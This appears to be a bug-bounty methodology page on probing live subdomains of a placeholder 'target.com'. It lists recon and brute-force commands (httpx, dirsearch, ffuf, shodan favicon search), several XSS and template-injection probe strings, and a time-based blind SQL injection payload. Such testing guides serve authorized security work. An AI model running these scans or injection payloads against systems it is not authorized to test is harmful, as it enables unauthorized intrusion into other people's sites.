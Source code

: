 # 🌍 Live Hosts Analysis & Testing (200 OK)

This document details the **manual exploration of live subdomains** and **security testing** for **XSS, SQLi, IDOR, and unauthorized access.**

---

## **1️⃣ Exploring Live Subdomains Based on Title & Tech Detection**

Since we are testing each subdomain one by one, we will **prioritize them based on technology stack and title detection**.

### **Gathering Title & Technologies of Live Subdomains**

```bash
cat httpx_200.txt | httpx -title -tech-detect -o live_subdomains_info.txt
```

✅ **Helps prioritize subdomains based on technology stack.**

### **Manually Open Each Subdomain & Explore**

Since subdomains are being tested one by one, open each manually and inspect pages, forms, and hidden functionalities.

**Once opened, manually test the following:**

- **Check for exposed directories, admin panels, and authentication forms.**
- **Look for error messages, debug logs, and sensitive information leaks.**

### \*\*Bruteforce Discovered Paths with ****`dirsearch`**** & \*\***`ffuf`**

```bash
dirsearch -u "https://target.com/discovered_path" -e php,html,js,json -t 50 --simple-report dirsearch_results.txt
ffuf -u "https://target.com/FUZZ" -w custom_wordlist.txt -mc 200 -o ffuf_results.txt
```

✅ **Only bruteforce paths discovered manually during exploration.**

```bash
cat httpx_200.txt | xargs -I {} curl -s {}/robots.txt | tee robots_results.txt
```

✅ **Extracts disallowed directories that might contain sensitive information.**

### \*\*Bruteforce Hidden Paths with ****`dirsearch`**** & \*\***`ffuf`**

```bash
dirsearch -l httpx_200.txt -e php,html,js,json -t 50 --simple-report dirsearch_results.txt
ffuf -u "https://FUZZ.target.com/FUZZ" -w common_wordlist.txt -mc 200 -o ffuf_results.txt
```

✅ **Finds hidden directories, admin panels, and sensitive files.**

### **Inject XSS in Form Fields**

```html
<svg/onload=confirm()> {{7*7}}
">"'><svg onload=alert('XSS')> {{7*7}}
<script>alert()</script> {{7*7}}
<img src=x onerror=confirm``> {{7*7}}
```

✅ **Tests for XSS vulnerabilities in login, signup, and password reset fields.**

Manually test SQLi payloads:

```sql
id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'
```

✅ **Tests for SQL injection vulnerabilities in live subdomains.**

- **Modify session tokens and test direct access.**
- **Use Burp Suite to inspect API responses for access control issues.**

### **Favicon Analysis for Technology Fingerprinting**

```bash
cat httpx_200.txt | httpx -favicon -o favicon_hashes.txt
shodan search "http.favicon.hash:{}"
```

✅ **Identifies underlying technologies based on favicon hash.**

### **Authentication Testing**

- **Refer to the following pages for manual authentication testing:**
  - **[Register & Signup](register_testing.md)**
  - **[Login & Auth](login_testing.md)**
  - **[Reset & Forgot Password](reset_testing.md)**
  - **[2FA & OTP](2fa_testing.md)**
  - **[API & XML Testing](api_xml_testing.md)**


